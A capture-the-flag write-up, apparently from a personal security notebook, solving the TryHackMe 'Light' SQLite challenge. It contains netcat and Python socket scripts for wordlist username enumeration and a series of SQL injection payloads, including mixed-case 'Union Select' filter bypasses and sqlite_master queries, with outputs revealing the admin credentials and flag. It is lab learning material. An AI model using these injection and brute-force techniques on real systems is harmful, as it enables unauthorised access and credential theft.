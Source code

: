 # Light (\*\*pending further experimentations)

I started on this challenge with minimal knowledge of SQL/SQLite commands and workings (just the basics as learnt from the TryHackMe course room detailed under the Web Hacking -> SQL Injection section in this gitbook: [https://jarrettgxz-sec.gitbook.io/penetration-testing-ethical-hacking/web-hacking/sql-injection](https://jarrettgxz-sec.gitbook.io/penetration-testing-ethical-hacking/web-hacking/sql-injection)). I have gained ideas and insights from a few online resources and also from _ChatGPT_.

Note: _ChatGPT_ was used to point myself towards the right direction on SQLite specific concepts such as commands to retrieve the table or columns names from the current database instance, but not on specific SQL injection concepts. The SQL injection commands were generated by myself based on multple trial-and-errors. For example, commands to query from `sqlite_master` was generated by ChatGPT, however, the insertion of specific characters (eg. quotation marks, equal signs, etc.) within the final command sent to the vulnerable database application was added myself based on my own knowledge from past experiences.



_**Bash script to brute force the password:**_

```bash
#!/usr/bin/bash

filename="/usr/share/wordlists/seclists/Usernames/top-usernames-shortlist.txt"

while IFS="" read -r line; do
	# eg. echo smokey | nc <target> 1337
	res=$(echo "$line" | nc -w 1 <target> 1337)

	if [[ "$res" == *"not found"* ]]; then
		# if the substring "not found" is present, means user not found
		...
	else
		# print success message and exit
		...
	fi;

done < "$filename"


```

_**Python script:**_

```python
#!/usr/bin/python3

import socket

HOST='10.10.34.209'
PORT=1337
#filename='/usr/share/wordlists/SecLists/Usernames/top-usernames-shortlist.txt'
#filename='test.txt'
#filename='/usr/share/wordlists/SecLists/Usernames/Names/names.txt'
#filename='/usr/share/wordlists/SecLists/Usernames/Names/femalenames-usa-top1000.txt'
#filename='Security-Research/tools/aws-pentest-tools/iam_user_enum/default-word-list.txt'
filename='wordlist/usernames.txt'

with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
    s.connect((HOST,PORT))
    s.recv(1024) # flush 1
    s.recv(1024) # flush 2


    f = open(filename, 'r')

    for username in f:
        if len(username) <= 10:
            continue

        username = username.lower()

        print(f'[!] Trying {username.replace('\n', '')}', end=' ')
        
        s.send(bytes(username, 'utf-8'))
        data = s.recv(1024)
        str_data = str(data, 'utf-8')

        if 'not found' in str_data:
            print('failed')
            s.recv(50)

        else:
            print(str_data)
            break

    f.close()

```

_**Word-lists to try out**_:

1. /`usr/share/wordlists/seclists/Usernames/Names/names.txt`
2. `/usr/share/wordlists/seclists/Usernames/Names/malenames-usa-top1000.txt`&#x20;
3. `/usr/share/wordlists/seclists/Usernames/Names/femalenames-usa-top1000.txt`

I found the username: alice. However this wasn't the admin username. Probably a rookie mistake on my part for not realizing sooner that an SQL injection is likely to be more feasible.&#x20;

### SQL Injection

I noticed that the input form length is very long, and realized that it's highly unlikely that I would be able find the username with a simple brute-force.&#x20;

As suggested from the challenge name, this database is likely to be a SQLite database application.

**Possible SQL statements on the server side:**

```sql
SELECT * FROM users WHERE name='smokey';
```

**Attempts with common SQL injection inputs:**

1. _**Force the statement to resolve to true**_

Potentially tricking the database to return all the users

```sql
' OR 1=1 --
```

```sql
SELECT * FROM users WHERE name='' OR 1=1--';
```

**Reponse**: _For strange reasons I can't explain, any input containing /\*, -- or, %0b is not allowed :)_

This tells us that comment characters are banned.

**Another attempt:**

```sql
' OR ''='
```

```sql
SELECT * FROM users WHERE name='' OR ''='';
```

This seems to return a password value (that is returned from the _alice_ username).&#x20;



2. _**UNION and SELECT statement**_

The UNION and SELECT keywords (along with their lower capital variations) are all banned too

```sql
UNION
SELECT
union
select
```

**Reponse**: _Ahh there is a word in there I don't like :(_

3. _**Obfuscation of keywords**_

After pondering for awhile on the error message returned from the statement in point 2 above, I got the idea of using non-standard SQL keyword commands, apart from the conventional fully capitalized, or fully non-capitalized versions (eg. `UNION`, `union`).

```sql
--**
' Union Select name from sqlite_master where type = 'table' '=
--OUTPUT: Error: near "'='": syntax error

--**
' Union Select name from sqlite_master where type = 'table' OR '=
--OUTPUT: Password: admintable


--**
' Union Select * from admintable '=
--OUTPUT: Error: SELECTs to the left and right of UNION do not have the same number of result columns

--** to resolve the first half of the UNION to false (since anything with AND '1=0' will always be false)
' AND '1=0' Union Select * from admintable '=
--OUTPUT: Error: SELECTs to the left and right of UNION do not have the same number of result columns


--** TRYING TO GET COLUMN NAMES OF THE TABLE 'admintable'
-- ** NOTICE the different cases of the letters, different from: UNION, union
' Union Select sql FROM sqlite_master WHERE type = 'table' AND name = 'users' OR '=
--OUTPUT: 
/*
Password: CREATE TABLE admintable (
                   id INTEGER PRIMARY KEY,
                   username TEXT,
                   password INTEGER)
*/

--**
' Union Select username from admintable '
--OUTPUT: Password: TryHackMeAdmin

--** Union keyword has funny capitalization, but works nonetheless
' UnIoN Select password from admintable '
--OUTPUT: Password: THM{SQLit3_InJ3cTion_is_SimplE_nO?}

--**
' UNion Select password from admintable where username='TryHackMeAdmin' or '=
--OUTPUT: Password: mamZtAuMlrsEy5bp6q17



```

From the results, I have learnt that SQLite accepts variations of SQL keywords, such as but not limited to: `Union`, `uNion`, `unIon`, `uniOn`, `UNion`, etc. are allowed, and are treated as valid commands.





ARCHIVE (pending deletion):

<pre class="language-sql"><code class="lang-sql">-- 1)
--INPUT: ' OR 1=1 
-- Error: unrecognized token:  "' LIMIT 30" 

--3) 
--INPUT: ' OR 1=1;
--Pause with no response

--2) 
--INPUT: 'UNION 
<strong>--Ahh there is a word in there I don't like :(
</strong>
--3)
--INPUT: 'SELECT
--Ahh there is a word in there I don't like :(

--4)
<strong>--INPUT: '--
</strong>--For strange reasons I can't explain, any input containing /*, -- or, %0b is not allowed :)

--5) 
--INPUT: '' LIMIT 30 OR '1=1;
--Error: near "LIMIT": syntax error

</code></pre>



{% embed url="https://www.invicti.com/blog/web-security/sql-injection-cheat-sheet/#FindColumnsHavingGroupbyErrorBased" %}

{% embed url="https://www.tutlane.com/tutorial/sqlite/sqlite-injection-attacks" %}
